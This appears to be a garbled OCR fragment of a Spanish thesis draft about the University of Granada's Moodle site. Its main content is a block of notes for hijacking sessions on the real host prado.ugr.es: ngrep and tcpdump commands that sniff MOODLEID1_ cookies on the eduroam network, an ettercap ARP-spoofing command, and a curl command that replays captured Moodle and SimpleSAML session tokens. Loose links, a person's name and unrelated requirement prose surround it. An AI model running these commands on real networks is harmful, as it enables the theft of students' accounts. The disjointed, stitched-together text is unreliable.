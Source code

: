 \begin{verbatim}

MOODLEID1_ cookie

ngrep



sudo ngrep -q "^GET .* HTTP/1.[01] "host prado.ugr.es"

MOODLEID1_


sudo tcpdump -I -i en0 -s 0 -B 524288 -w eduroam.pcap

sudo ngrep -q "^GET .* HTTP/1.[01].*MOODLEID1_=" "host prado.ugr.es" -I eduroam.pcap


arp spoofing



sudo ettercap -T -i en0 -P autoadd -M arp ///80 -e "^GET /moodle/ HTTP/1.[01].*MOODLEID1_=" -t tcp


curl -v --cookie " MoodleSession=1k3arpnhojmnjh0rv3ckuee7m2; MOODLEID1%25AB%25FE%2589%25D2O%25D7%2513; SimpleSAMLSessionID-sp=c77c96971496cb79b0f2d5b0ead74452; SimpleSAMLAuthToken=_07cd74595444d3f665543a8af7ebb20b16e7352e94;" http://prado.ugr.es/moodle/

\url{https://es.wikipedia.org/wiki/ARP_Spoofing}

\url{http://insecure.org/sploits/arp.games.html}

title="Ver perfil">ERNESTO SERRANO COLLADO</a>

Todo software se desarrolla para cubrir una necesidad, por lo que en este apartado vamos a describir los requisitos que se estiman necesarios para cubrir los objetivos propuestos.

\url{https://github.com/TUM-MZ/moodle-block_material-download}

fijarse en estas encuestas

\url{http://stackoverflow.com/insights/survey/2017/ }



sobre https
\url{http://www.elladodelmal.com/2017/04/presto-parking-un-sitio-web-pci.html}


corregidas vulnerabilidades en moodle
\url{http://unaaldia.hispasec.com/2017/04/corregidas-cuatro-vulnerabilidades-en.html}

\end{verbatim}





\section{Análisis de disponibilidad}

